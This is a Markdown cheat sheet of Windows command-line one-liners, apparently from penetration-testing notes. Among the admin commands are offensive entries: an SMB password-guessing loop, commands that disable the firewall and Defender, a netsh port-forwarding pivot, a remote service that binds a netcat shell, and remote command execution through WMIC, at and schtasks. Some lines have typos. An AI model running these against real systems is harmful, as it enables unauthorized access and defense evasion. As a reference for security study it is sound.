 ```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Accounts and Privileges**

Topic | Command
------------- | -------------
Lauch with Admin Privs | ctrl+shift+enter 
SID | S-[revision level]-[authority level]-[domain/computer]-RID
Admin RID | 500
Guest RID | 501 
Users RID | 1001 and up
Add or Remove a User | net user [username] [password] /add or /del <br> termservice, telnet
Add or Remove user to a group | net localgroup [group] [username] /add or /del <br> Examples: <br> Remote Desktop Users, TelnetClients, Administrators
List Local Users | net user
List Groups | net localgroup
List Administrators | net localgroup administrators 
List Account Policy | net accounts or net accounts /domain
Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt
Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!"

>**Antivirus**

Topic | Command
------------- | -------------
Turn off Windows Defender | control /name Microsoft.WindowsDefender
Turn off Smart Screen | control /name Microsoft.ActionCenter

>**Inventory, File Search, and Counting**

Topic | Command
------------- | -------------
Count Lines | <code> type "file" | find /c /v "" </code>
Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt" 
Display File Contents | type [file], type *.[ext], type [file1] [file2]
Search in FIle | <code> type [file] | find /i "[string]", type [file] | findstr [regex] </code>
See Environment Variables | set, set [variable_name] <br> Example: username, path
Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) <br> Example: dir /b /s %systemroot%\hosts
Read Registry Key | reg query [keyName] 
Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data]
Export Registry Keys | reg export [keyName] [filename.reg] 
Import Registry Keys | reg import [filename.reg]
Find a String  | find "[string]", findstr [regex]

>**Inventory, File Search, and Counting**

Topic | Command
------------- | -------------
Network Activity | <code> netstat -na | find ":[port]"</code> 
DNS cahce | <code> ipconfig /displaydns </code>
Turn firewall off | <code> netsh advfirewall set allprofiles state off </code>
Firewall Rule | <code> netsh advfirewall firewall add rule name="[name]" <br> dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=[port number] <br> Example: 3389, 23 </code>
Delete Firewall Rule | <code> netsh advfirewall firewall del rule name="[name]" 
Disable Firewall | <code> netsh advfirewall set allprofiles state off 
Firewall Rule Registry | <code> reg add HKLM\ SYSTEM\ CurrentControlSet\ Services\ SharedAccess\ Parameters\ FirewallPolicy\ StandardProfile\ GloballyOpenPorts\ List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" 
View Firewall Configuration | netsh advfirewall show allprofiles 
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code>
DNS Lookup | <code> for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" </code>
 Netsh pivot | <code> netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=[RPORT] connectaddress=[RHOST] </code>

>**Process and Services**

Topic | Command
------------- | -------------
Install a service | <code> "pkgmgr /iu:""[servicename]"" <br> dism /online /Enable-Features /FeatureName:TelnetServer" </code>
List Running Services | <code> sc query </code>
List All Services | <code> sc query state= all </code>
List Remote Services  | <code> sc \\[targetIP] query </code>
Check status of service | <code> sc query [service name] </code>
Start/Stop a service | <code> sc start/stop [service name] </code>
Change Startup type of service | <code> sc config [servicename] start= demand (termservice, telnet) </code>
Delete Service | <code> sc delete [service name] </code>
List Processes | <code> tasklist </code>
Kill a Process | <code> taskkill /PID [process_ID] </code>

>**Remote Access, SMB, and WMIC**

See Current Privileges | <code> whoami </code>
Windows null session | <code> net use \\targetip "" /u:"" </code> 
Establish an SMB session | <code> net use \\[targetIP] [password] /u:[user] </code>
Mount a Share on Target | <code> net use * \\[targetIP]\[share] [password] /u:[user] <br> net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user] </code>
Dropping SMB Session | <code> "net use \\[targetIP] /del <br> net use * /del" </code>
Run a Remote Command | <code> sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe </code> 
Turn on Remote Desktop / terminal services | <code> reg add "hklm\ system\ currentcontrolset\ control\ terminal server" /v fdenysconnetions /t reg_dword /d 0 </code>
Remote Registry  | <code> Put \\[MachineName] before [KeyName] </code> 
WMIC Invoke Porgram | <code> wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] </code>
WMIC on Multiple Machines | <code> /node:@[filename] - run a command on multiple machines listed in a file </code> 
WMIC Service Query | <code> wmic services where (displayname like "%[whatever]%") get name </code> 
WMIC List Processes | <code> wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief </code> 
WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete </code>
WMIC Monitor Process | <code> wmic process where name="[name]" list brief /every:1 | "nc.exe" </code>
at (windows 7 and lower)(all commands at SYSTEM) | <code> "net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" </code> 

schtasksStart time - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE | <code> net use \\[targetIP] [password] /u:[admin_user] 
<br> sc \\[targetIP] query schedule (*make sure it is running*)
<br> *sc \\[targetIP] start schedule*
<br> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
<br> schtasks /query /s [targetIP] </code> 
Simple Windows IIS Express Server | <code> C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 </code> 


>**Scripting and Shell**

Navigate History | F7  
For Loops | "for /L %i in ([start], [step], [stop]) do [command]) 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] 
Pause/Break | timeout /t 4 /nobreak 
Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Multiple Successful Commands | && 
Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Print Blank Line or Beap | echo., echo CTRL-G 
CR/LF (0d0a) | Windows use CR/LF as EOF characters. 

